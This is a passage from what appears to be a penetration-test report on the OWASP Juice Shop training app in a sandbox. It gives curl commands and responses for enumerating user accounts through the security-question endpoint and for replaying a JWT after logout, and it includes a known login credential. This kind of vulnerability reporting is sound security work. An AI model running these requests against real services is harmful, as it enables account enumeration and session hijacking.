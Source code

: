 1. Test valid email address:
```bash
curl "http://juice-shop.sandbox.local:3001/rest/user/security-question?email=admin@juice-sh.op"
```
Response: `{"question":{"id":2,"question":"Mother's maiden name?","createdAt":"2025-09-16T16:47:15.131Z","updatedAt":"2025-09-16T16:47:15.131Z"}}` (134 bytes)

2. Test invalid email address:
```bash
curl "http://juice-shop.sandbox.local:3001/rest/user/security-question?email=nonexistent@example.com"
```
Response: `{}` (2 bytes)

3. Automated enumeration discovers 4 valid accounts:
- `admin@juice-sh.op` (returns security question)
- `jim@juice-sh.op` (returns security question)
- `bender@juice-sh.op` (returns security question)  
- `demo` (returns security question)

**Proof of Impact:**
Successfully enumerated valid user accounts through response pattern analysis, obtaining security questions for each valid account enabling further social engineering attacks.

### AUTH-VULN-10: Token Replay After Logout (No Server-Side Invalidation)

**Summary:**
- **Vulnerable location:** Authentication token management system
- **Overview:** No server-side logout endpoint - tokens remain valid after client logout
- **Impact:** Stolen tokens usable indefinitely until expiration
- **Severity:** High

**Exploitation Steps:**

1. Obtain valid JWT token through authentication:
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/rest/user/login" \
-d '{"email":"jim@juice-sh.op","password":"ncc-1701"}'
```

2. Verify token provides access to protected resources:
```bash
curl "http://juice-shop.sandbox.local:3001/rest/basket/2" \
-H "Authorization: Bearer [JWT_TOKEN]"
```
Response: HTTP 200 with user's basket data

3. Attempt server-side logout (proves no endpoint exists):
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/rest/user/logout" \
-H "Authorization: Bearer [JWT_TOKEN]"
```
Response: HTTP 500 "Error: Unexpected path: /rest/user/logout"

4. Verify token remains valid after attempted logout:
```bash
curl "http://juice-shop.sandbox.local:3001/api/Users/2" \
-H "Authorization: Bearer [JWT_TOKEN]"
```
Response: HTTP 200 with complete user profile data
